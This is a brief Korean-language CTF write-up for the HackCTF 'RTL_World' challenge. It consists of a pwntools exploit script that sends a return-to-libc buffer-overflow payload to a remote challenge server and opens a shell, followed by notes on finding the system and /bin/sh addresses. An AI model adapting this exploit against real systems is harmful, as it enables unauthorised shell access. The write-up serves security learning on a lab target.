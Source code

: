 # HACKCTF 
## RTL_World  
~~~python
from pwn import *
r = remote("ctf.j0n9hyun.xyz",3010)
system=0x080485b0
binsh=0x8048eb1

r.recv(1024)
r.sendline("5")
r.recvuntil("[Attack] > ")
payload = 'A'*144+p32(system)+'A'*4+p32(binsh)
r.sendline(payload)
r.interactive()
~~~
우선 nc를 통해 실행시켜봤더니 엄~~청 복잡하다.
우선 입력할 수 있는 부분을 먼저 찾으니 선택부분과 5번 kill 부분에서 입력 가능하다.
case 5에서는 read 함수로 buf에 입력을 받음으로 여기서 공격이 가능하다.
또한 아이다에서 system 함수의 주소를 얻었다.
system 함수의 인자로 사용될 bin/sh값을 objdump } grep /bin/sh 함수로 찾아준다.
이제 payload를 dummy(144) | system 주소 | ret(4) | binsh 주소 이렇게 구성시켜주면
shell을 얻을 수 있다. 롸이트업을 계속 보고 하게 된다ㅠㅠ
